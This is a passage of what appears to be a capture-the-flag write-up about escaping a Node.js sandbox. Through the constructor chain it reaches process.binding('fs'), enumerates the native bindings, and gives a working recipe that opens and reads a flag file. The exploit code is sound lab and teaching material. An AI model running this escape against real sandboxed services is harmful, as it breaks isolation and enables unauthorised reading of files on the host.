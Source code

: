 Reading now from [resource 2](https://blog.netspi.com/escape-nodejs-sandboxes/), I noticed a peculiar way of "importing" some libs using `process.binding('fs')`. So, let's try it!

```javascript
> (this.constructor.constructor("var fs = this.process.binding('fs'); return fs;"))()
[object Object]
```
Trying to load 'fs' returns something!

Apparently, NodeJS has the possibility of creating things on different languages (like C/C++) taking advantage of the language, and then binding it to it.
It seems that by default, there is a standard set of bindings that you can use in Node, which could be described using the `natives` binding:

```javascript
> (this.constructor.constructor("var n = this.process.binding('natives'); return Object.getOwnPropertyNames(n);"))()
_http_agent,_http_client,_http_common,_http_incoming,_http_outgoing,_http_server,_stream_duplex,_stream_passthrough,_stream_readable,_stream_transform,_stream_wrap,_stream_writable,_tls_common,_tls_wrap,assert,async_hooks,buffer,child_process,cluster,console,constants,crypto,dgram,dns,domain,events,fs,fs/promises,http,http2,https,inspector ...
```

We can see that `fs` is effectively among the possible bindings. `child_process` is mentioned as well, so I tried using it directly to execute os commands directly, but it fails. It would seem that not all the listed bindings are available to use:

```javascript
> (this.constructor.constructor("var c = this.process.binding('child_process'); return c;"))()
An error occurred.
```

So, I focused back on `fs`. Taking a look at the available properties, we can see a list of common methods

```javascript
> (this.constructor.constructor("var fs = this.process.binding('fs'); return Object.getOwnPropertyNames(fs);"))()
access,close,open,openFileHandle,read,readBuffers,fdatasync,fsync,rename,ftruncate,rmdir,mkdir,readdir,internalModuleReadJSON,internalModuleStat,stat,lstat,fstat,link,symlink,readlink,unlink,writeBuffer,writeBuffers,writeString,realpath,copyFile,chmod,fchmod,chown,fchown,lchown,utimes,futimes,mkdtemp,kFsStatsFieldsNumber,statValues,bigintStatValues,StatWatcher,FSReqCallback,FileHandle,kUsePromises

> (this.constructor.constructor("var fs = this.process.binding('fs'); return fs.open;"))()
function open() { [native code] }
```

And from resource #2, we can see these bindings are using os commands for [open](https://linux.die.net/man/2/open), [read](https://linux.die.net/man/2/read), etc.

So, from here we basically need to open the ctf flag file and read it!
Below is the code-recipe:

```javascript
var fs = this.process.binding('fs');
var readonly_flag = 0;
var mode = 0o666;
var fd  = fs.open('/ctf/flag.txt', readonly_flag, mode, undefined, {path: '/ctf/flag.txt'});
var buffer = Buffer.alloc(100);
fs.read(fd, buffer, 0, 100, -1, undefined, {});
return buffer;
```
